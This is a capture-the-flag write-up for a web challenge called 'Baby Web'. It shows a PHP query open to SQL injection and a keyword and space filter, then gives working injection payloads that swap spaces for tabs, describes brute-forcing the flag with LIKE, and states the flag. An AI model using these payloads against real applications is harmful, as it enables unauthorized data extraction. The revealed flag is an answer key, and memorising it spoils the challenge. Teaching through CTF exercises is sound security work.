

# Baby Web
Web

## Challenge 
> It is all in the challenge.

> http://ctf.pwn.sg:8180

> *Creator - quanyang (@quanyang)*


## Solution

	The flag is in the flag column of the user 'admin'.
	View source here.


We can't use these keywords and can't use spaces (will be stripped off)

	$username = str_replace(" ","", $username);
    $array = array("=", "union", "join", "select", "or", "from", "insert", "delete");

And we can inject SQL into this

	$sql = "SELECT username FROM users WHERE username like '%$username%';";

Hence, my test query is as follows, which successfully returns the admin username

	SELECT username FROM users WHERE username like '%                  %';
	SELECT username FROM users WHERE username like '%admin%' and '%'= '%';

	admin%' and '%'= '




Now, let's use it to check the flag starts with value

	SELECT username FROM users WHERE username like '%                                    %';
	SELECT username FROM users WHERE username like '%admin%' and flag like '%' and '%'= '%';

But wait we can't use spaces... 

See the following:

- https://stackoverflow.com/questions/37167239/can-you-write-a-sql-statement-without-spaces-between-keywords
- https://www.quora.com/Is-it-possible-to-make-a-SQL-query-with-no-spaces
- https://security.stackexchange.com/questions/127655/would-removing-spaces-in-a-string-protect-against-sql-injection


```
	No. Removing spaces would not prevent SQL injection, as there are many other ways to make the parser process your input. 

	...

	Now let's imagine that the attacker used another form of white space, i.e. tabs:
	Removing the spaces would still allow the injection through.
```

So now we can bruteforce the flag char by char but replace the spaces with tabs


	admin%'	and	flag	like	'CrossCTF{%'	and	'%'= '

And it works!

Now write a script to bruteforce...

	Final flag:  CrossCTF{simple\_sql\_injection\_as\_warmup}

## Flag

	CrossCTF{simple_sql_injection_as_warmup}